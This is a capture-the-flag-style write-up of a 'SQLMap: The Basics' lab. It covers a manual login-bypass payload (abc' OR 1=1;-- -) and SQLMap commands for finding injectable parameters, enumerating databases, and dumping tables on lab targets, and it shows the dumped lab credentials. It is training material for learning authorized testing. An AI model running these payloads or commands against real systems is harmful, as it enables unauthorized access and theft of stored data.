# SQLMap: The Basics

---

In reviewing the SQLMap: The Basics material, I noted that SQL injection continues to rank among the most common web vulnerabilities. 
Databases consist of structured collections of information that applications store, modify, and retrieve efficiently. Websites rely on 
them for operations such as validating login credentials or returning search results from input fields. Database Management Systems 
(DBMS) like MySQL, PostgreSQL, SQLite, or Microsoft SQL Server interpret these interactions using Structured Query Language queries.

A typical login flow assembles a query such as SELECT * FROM users WHERE username = 'John' AND password = 'Un@detectable444';. When an 
application fails to sanitize user input, an attacker can alter the query by entering a crafted password like abc' OR 1=1;-- - , 
resulting in SELECT * FROM users WHERE username = 'John' AND password = 'abc' OR 1=1;-- -';. The injected OR 1=1 condition always 
evaluates as true, the single quote properly terminates the string, and the -- - comment discards anything following it, granting 
access without the correct password. All testing of this nature requires explicit permission from the application owner.

SQLMap functions as a command-line tool that automates discovery and exploitation of SQL injection flaws in web applications. It ships
with many Linux distributions and otherwise installs easily; the --help option lists every available flag. The --wizard flag launches
an interactive session that walks through configuration by asking targeted questions, which simplifies usage for initial runs. Once an
injectable point is confirmed, --dbs enumerates all database names on the backend. Selecting one with -D database_name followed by
--tables reveals its tables, while adding -T table_name and --dump extracts the full contents of a chosen table.

Scanning begins with URLs that expose GET parameters, such as http://sqlmaptesting.thm/search?cat=1 passed via the -u flag. Execution 
against this target identified the cat parameter as vulnerable through boolean-based blind, error-based, time-based blind, and UNION 
query techniques. The backend was confirmed as MySQL 5.1 or newer running on Linux Ubuntu with Nginx and PHP 5.6.40. Database names 
extracted were users and members. Targeting the users database produced tables johnath, alexas, and thomas (output referenced as acuart)
. Dumping the thomas table returned a single row containing the date 09/09/2024, name Thomas THM, and pass testing; the session 
declined both hash storage and dictionary cracking.

For applications that enforce authentication through cookies, the --cookie flag supplies session values such as PHPSESSID or 
JSESSIONID so SQLMap operates in the same context as a logged-in user. POST-based forms require capturing the full request in a 
text file via an intercepting proxy and supplying it with the -r flag. The practical exercise deployed a vulnerable login page at
http://<MACHINE_IP>/ai/login. Because parameters did not appear directly in the visible URL, browser developer tools were used on 
the Network tab to submit test credentials and copy the complete GET request 
http://<MACHINE_IP>/ai/includes/user_login?email=test&password=test. Scanning this URL with appended --level=5, while answering the 
subsequent prompts to skip non-MySQL payloads, extend MySQL test coverage, use a random integer for UNION handling, and stop after 
the first vulnerable parameter, successfully reproduced the injection chain.

---

| Description | Code/Command |
|-------------|--------------|
| Example legitimate login SQL query | SELECT * FROM users WHERE username = 'John' AND password = 'Un@detectable444'; |
| Manual SQL injection payload for password field | abc' OR 1=1;-- - |
| Resulting injected SQL query | SELECT * FROM users WHERE username = 'John' AND password = 'abc' OR 1=1;-- -'; |
| Launch interactive SQLMap wizard | sqlmap --wizard |
| Scan a GET-parameter URL for injection | sqlmap -u http://sqlmaptesting.thm/search/cat=1 |
| Enumerate all database names | sqlmap -u http://sqlmaptesting.thm/search/cat=1 --dbs |
| List tables inside a specific database | sqlmap -u http://sqlmaptesting.thm/search/cat=1 -D users --tables |
| Dump all records from a named table | sqlmap -u http://sqlmaptesting.thm/search/cat=1 -D users -T thomas --dump |
| Test a saved POST request file | sqlmap -r intercepted_request.txt |
| Practical scan with elevated level (redacted target) | sqlmap -u 'http://<MACHINE_IP>/ai/includes/user_login?email=test&password=test' --level=5 |

---

**Extracted Tables**

**Tables enumerated in the users database (output labeled acuart)**

| Table   |
|---------|
| johnath |
| alexas  |
| thomas  |

**Records dumped from thomas table**

| Date       | name       | pass    |
|------------|------------|---------|
| 09/09/2024 | Thomas THM | testing |

## Key Takeaways
- Always secure explicit permission from the application owner before any manual or automated SQL injection testing.
- Start with the --wizard flag when first learning SQLMap to let the tool interactively guide target selection and options.
- Identify injection candidates by scanning URLs that contain GET parameters using the -u flag.
- After confirming vulnerability, run --dbs to list all available databases on the backend.
- Choose a database with -D database_name and append --tables to enumerate its tables.
- Target a specific table with -D database_name -T table_name --dump to extract its contents.
- Supply session cookies via the --cookie flag when the application requires authentication.
- For POST forms, capture the raw request in a text file and feed it to SQLMap with the -r flag.
- In the hands-on exercise, use browser Network inspection to obtain the full GET URL with parameters before scanning.
- Append --level=5 to commands for deeper payload coverage on the vulnerable login endpoint.
- When prompted, answer y to skip other DBMS tests, y to include all MySQL tests, y to use a random integer for UNION, and n to stop testing additional parameters once one is confirmed vulnerable.

---

### Gallery 

  <table>
    <tr>
      <td align="center">
      <td align="center"></td>
    </tr>
    <tr>
      <td align="center"><strong>Figure 1a:</strong> SQLMap Wizard - 0</td>
      <td align="center"><strong>Figure 1b:</strong> SQLMap Wizard - 1</td>
    </tr>
    <tr>
      <td align="center">
      <td align="center"></td>
    </tr>
     <tr>
      <td align="center"><strong>Figure 2a:</strong> SQLMap Testing - 0</td>
      <td align="center"><strong>Figure 2b:</strong> SQLMap Testing - 1</td>
    </tr>
  </table>

  <table>
    <tr>
      <td align="center">
      <td align="center"></td>
    </tr>
    <tr>
      <td align="center"><strong>Figure 3a:</strong> Target Site</td>
      <td align="center"><strong>Figure 3b:</strong> Inspect Element - Network - Get Header</td>
    </tr>
    <tr>
      <td align="center">
      <td align="center"></td>
    </tr>
     <tr>
      <td align="center"><strong>Figure 4a:</strong> SQLMap Run - 0</td>
      <td align="center"><strong>Figure 4b:</strong> Organization Chart</td>
    </tr>
  </table>

  <table>
    <tr>
      <td align="center">
      <td align="center"></td>
    </tr>
    <tr>
      <td align="center"><strong>Figure 5a:</strong> SQLMap Run - 1</td>
      <td align="center"><strong>Figure 5b:</strong> SQLMap Success Run - 0</td>
    </tr>
    <tr>
      <td align="center">
      <td align="center"></td>
    </tr>
     <tr>
      <td align="center"><strong>Figure 6a:</strong> SQLMap Success Run - 1</td>
      <td align="center"><strong>Figure 6b:</strong> SQLMap Success Run - 2</td>
    </tr>
  </table>

---

